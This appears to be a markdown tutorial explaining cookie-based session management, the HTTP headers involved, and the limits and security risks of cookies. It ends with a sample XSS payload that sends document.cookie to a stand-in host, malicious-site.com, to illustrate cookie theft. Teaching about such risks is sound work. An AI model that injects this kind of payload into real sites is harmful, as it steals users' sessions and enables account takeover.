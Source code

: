 
## Session Management  

<figure>
  <div align="center">
    <img src="data/cookies/assets/session.png" height="300" width="500" style="border: 2px solid black;">
  </div>
  <figcaption style="text-align: center"></figcaption>  
</figure>
<br>

<!-- <img src = "data/cookies/assets/session.png">  -->

### **How Cookies Works in The Server Side**  

When a user visits a website and logs in, the server needs a way to remember that user across different pages. This is where cookies come in.  

1. The user logs in by sending credentials (e.g., username & password).  
2. The server verifies the credentials and creates a session for the user.  
3. The server sends a `Set-Cookie` header in the HTTP response, instructing the browser to store a cookie.  
4. The cookie (`session_id=abc123`) is now stored in the user's browser, helping the server recognize the user in future requests.  

   **HTTP Response:**  
   ```http
   HTTP/1.1 200 OK  
   Set-Cookie: session_id=abc123; HttpOnly; Secure; SameSite=Strict  
   ```  

### **How The Client-Side Retrieves Cookies**  

Once stored, the cookie is automatically included in future requests to the same website, allowing the server to identify the user without requiring them to log in again.  

**Browser Request with Cookie:**  
```http
GET /profile HTTP/1.1  
Host: www.example.com  
Cookie: session_id=abc123  
```  

- The browser automatically adds the cookie to every request sent to `www.example.com`.  
- The server reads the cookie and verifies that `session_id=abc123` belongs to a valid logged-in user.  
- The user is shown their personalized profile page without needing to log in again.  

### **Limitations of Cookies**  

- **Storage Limit:** Maximum of **4KB**, restricting data storage.  
- **Network Load:** Sent with every request, increasing bandwidth usage.  
- **Security Risks:**  
  - **Session Hijacking:** Stolen session cookies can be used to impersonate users.  
  - **XSS Attacks:** JavaScript can steal cookies if not properly secured.  
  <figure>
  <div align="center">
    <img src="data/cookies/assets/XSS.png" height="300" width="500" style="border: 2px solid black;">
  </div>
  <figcaption style="text-align: center"></figcaption>  
</figure>
<br>

   <!-- <img src = "data/cookies/assets/XSS.png"> -->
```
<script>
document.location = "http://malicious-site.com/steal?cookie=" + document.cookie;
</script>
```